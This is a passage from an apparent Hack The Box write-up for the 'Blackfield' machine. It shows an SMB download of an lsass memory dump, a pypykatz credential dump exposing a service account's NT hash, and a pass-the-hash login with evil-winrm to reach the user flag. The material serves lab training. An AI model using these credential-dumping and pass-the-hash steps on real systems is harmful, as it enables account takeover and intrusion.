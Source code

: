 We can see multiple zip files, the interesting one is lsass.zip, this is because lsass stores credentials in Windows. Let's get the file and unzip it.

```bash
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (3543.9 KiloBytes/sec) (average 3543.9 KiloBytes/sec)
smb: \memory_analysis\> exit
finlay@kali:~/htb/blackfield$ unzip lsass.zip
```

## Dumping password from lsass

Now we can use [pypykatz](https://github.com/skelsec/pypykatz) to dump credentials from the file. You could also do this using mimikatz on a Windows machine, but I wanted to do it all on Linux.

```bash
finlay@kali:~/htb/blackfield$ pypykatz lsa minidump lsass.DMP 
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
...
```

Now we can use the NT hash to login to the box with evil-winrm using pass the hash.

![user_shell](/assets/img/posts/blackfield/user_shell.png)

And we find the user flag in C:/Users/svc_backup/Desktop

## User.txt

![user_flag](/assets/img/posts/blackfield/user_flag.png)
